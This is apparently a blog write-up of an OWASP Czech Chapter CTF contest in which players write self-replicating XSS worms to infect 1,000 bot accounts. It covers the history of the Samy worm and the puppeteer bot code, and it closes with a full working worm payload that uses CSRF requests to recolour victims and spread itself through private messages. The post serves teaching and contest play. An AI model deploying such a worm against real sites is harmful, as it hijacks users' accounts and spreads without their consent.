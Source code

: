 ```yaml
---
layout: post
title: "XSSworm.dev ~ Self-replication contest [write-up]"
date: 2020-12-01 00:00:00 -0000
categories: ['Ethical hacking', 'Tools']
tags: [XSS, worm]
author: vavkamil
---
```


tl;dr: I created "CTF" style challenge for our **[OWASP Czech Chapter Virtual Meeting](https://www.meetup.com/owasp-czech-republic-meetup-group/events/274616231/)**. The goal was to write an XSS worm and score points by infecting 1k virtual users. You can find the source code [here](https://github.com/vavkamil/XSSworm.dev) and read the details in this post.

---

When the whole covid-19 thing started, I was somehow interested in looking at various coronavirus world maps and watching the exponential growth of the pandemic unfold. It reminded me of the (in)famous MySpace; "[Samy worm](https://samy.pl/myspace/tech.html)" by [Samy Kamkar](https://en.wikipedia.org/wiki/Samy_Kamkar). For those of you who never heard about it, it was the first publicly released self-propagating cross-site scripting worm, onto MySpace, in 2005. The worm was able to infect over one million users had run the payload in one day.

Since then, we have seen some other XSS worms, for example, on Yahoo, Twitter or Orkut. But nothing at the scale of The MySpace worm.

In 2008, [@RSnake](https://twitter.com/rsnake?lang=en) published "*[Diminutive XSS Worm Replication Contest](https://web.archive.org/web/20080210014614/http://sla.ckers.org/forum/read.php?2,18790,18790)*" on sla.ckers.org. It was an awesome idea, but there was some [backslash](https://forums.theregister.com/forum/all/2008/01/05/worm_replication_contest/) as well :(

But why am I talking about this? Well, in 2008, I was 12 years old. I didn't know any English yet, but I was lucky enough to be mentored by the best hackers in the Czechia at the time. Couple of months after the RSnake's contest, one member of our community took the idea and created an interface where we could test our XSS worms and compete with others. It looked like this:

![](/assets/img/2020/12/skola.png)

There were 200 bot accounts and we (~4 people) scored points by infecting them with our worms and marking them with our color & nick via CSRF. You can still find the pieces of the original web archived [here](https://web.archive.org/web/20080320190901/http://xsscontest.xf.cz/?action=stats&PHPSESSID=e8b6a4ab2a69f128ed44fa933bb7584e) and the XSS worm source [here](https://web.archive.org/web/20080717202916/http://skola.security-portal.cz/[4194]-XSS-CONTEST-WARRIOR_0x13.txt). It may sound weird, but this "contest" is one of my happiest childhood memories :)

So one evening, when I was checking the coronavirus map, I had a big flashback and immediately started coding the remastered version. The things is, I'm not a developer, so it took quite some time. In May 2020, I had a working Proof of Concept, which looked like this:

![](/assets/img/2020/12/challenge-poc.png)

At that point, I realized that it's *scalable* and I might be able to pull it off and write a CTF style contest for our upcoming OWASP Czech Chapter meeting. I did some research and decided to go with a simple Python Flask application and a cluster of puppeteer workers for the bots.

Then the situation with covid got worse, and we had to postpone the OWASP meeting. We had to postpone multiple times and eventually cancel the whole thing because of the lockdown. On the bright side, I had plenty of time for coding and polishing. So how does it work?

![](/assets/img/2020/12/web.png)

It's somehow simple. The user will register with the nickname and team color. They are then presented with a simple interface to send messages to bots. But here is a catch, each user has a limit of 13 messages which could be sent. Based on the swagger documentation, they need to write the XSS worm, which will leverage two CSRFs. One to change the bot's color and the other to self propagate via the bot's unlimited private messages. The point of a limited number of messages is to force the users to design an efficient infection algorithm, which will spread exponentially.

There is a grid of 1k boxes, which helps to visualize the bots. If they are infected, and by whom. Users are scoring points by infecting and reinfecting the bots and marking them with their team color.

![](/assets/img/2020/12/example.png)

The puppeteer cluster is then reading the last received messages of each bot in a random sequence every X minutes. The cluster code looks like this, it's just going through the array in random order, authenticated with cookies:

```
const { Cluster } = require('puppeteer-cluster');

(async () => {
  const cluster = await Cluster.launch({
    concurrency: Cluster.CONCURRENCY_CONTEXT,
    maxConcurrency: 5,
    // puppeteerOptions: { headless: false },
    // puppeteerOptions: { args: ['--no-sandbox'] },
    timeout: 666,
    monitor: true,
  });

  await cluster.task(async ({ page, data }) => {
    const { url, id } = data;
    await page.setCookie({
      'value':id,
      'domain': 'xssworm.dev',
      'expires': Date.now() / 1000 + 10,
      'name': '31p475~Yr37748-35r0h~7c3rr0C-ID',
      'httpOnly': true
    });
    await page.setCookie({
      'value':'correct-horse-battery-staple',
      'domain': 'xssworm.dev',
      'expires': Date.now() / 1000 + 10,
      'name': 'secret',
      'httpOnly': true
    });
    await page.goto(url);
    await page.waitFor(666);
    //const screen = await page.screenshot();
    // Store screenshot, do something else
  });

  var array = Array.from({length: 1001}, (_, i) => [i, Math.random()]).sort((a, b) => a[1] - b[1]).map(([n, r]) => n)
  for (var i = 0; i < array.length; i++) {
    //console.log(array[i]);
    var url = "https://xssworm.dev/read-message?id="+array[i];
    cluster.queue({url, id:""+array[i]+""});
  // many more pages
  }

  await cluster.idle();
  await cluster.close();
})();
```

There are some basic rules for users. They should be able to write the self-propagating code in just 13 tries. Once their worm hits exponential growth, they should be able to infect most of the victims.

![](/assets/img/2020/12/rules.png)

After the registration, users are present with Swagger. They were supposed to write a code, which will send two POST requests, one to change to the color of the victim, the other to replicate its code and spread to another victim. The tricky part was *application/x-www-form-urlencoded*, as most of the contestants struggled to get the encoding right, so either the '+' sign was stripped, or the '#' representing hex value of the color was double encoded.

![](/assets/img/2020/12/swagger.png)

Only one player was able to write the functional self-spreading XSS worm in time and eventually won the whole competition. They designed three different algorithms, as they could register again and resend the updated version to 13 victims.

![](/assets/img/2020/12/interface.png)

There is a lot of things to improve in my code. I used a rather strict Content Security Policy. The whole deployment should be in docker. For more experienced users, XSS protection to bypass would be ideal. The one thing that I struggled with the most was how to prevent a race condition and how to protect the number of messages that the user can send :( But anyway, I'm glad that people enjoyed the challenge, even in those hard times.

Here you can check my Proof of Concept of the worm:

```
<script id="xss_worm">

	// XSS worm .dev
	// Self-replication contest
	// Proof of Concept v1.0

	var victims = 1000;
	var team_color = "#550bb1";
	var url = "https://xssworm.dev";
	var infection_code = "<script id=\"xss_worm\">"+self_propagation()+"<\/script>";

	infect_victim(team_color);

	while (true) {
		var victim_id = get_random_victim(victims);
		spread_infection(victim_id,infection_code);
	}

	function get_random_victim(accounts_count) {
		return Math.floor((Math.random() * accounts_count) + 1);
	}

	function infect_victim(color) {
		var xhr = new XMLHttpRequest();
		var params = "color="+color;
		xhr.open("POST", url+"/update", true);
		xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
		xhr.send(params);
	}

	function self_propagation(){
		return document.getElementById("xss_worm").innerHTML;
	}

	function spread_infection(id,infection_code) {
		var xhr = new XMLHttpRequest();
		var params = "id="+id+"&msg="+encodeURIComponent(infection_code);
		xhr.open("POST", url+"/send-message", true);
		xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
		xhr.send(params);
	}

</script>
```

You can check and try [the website](https://xssworm.dev), as I will keep the infrastructure alive for a while, or you can deploy it locally, as the whole thing is open-source. I'm a little bit ashamed of my programming skills, but here you go: https://github.com/vavkamil/XSSworm.dev
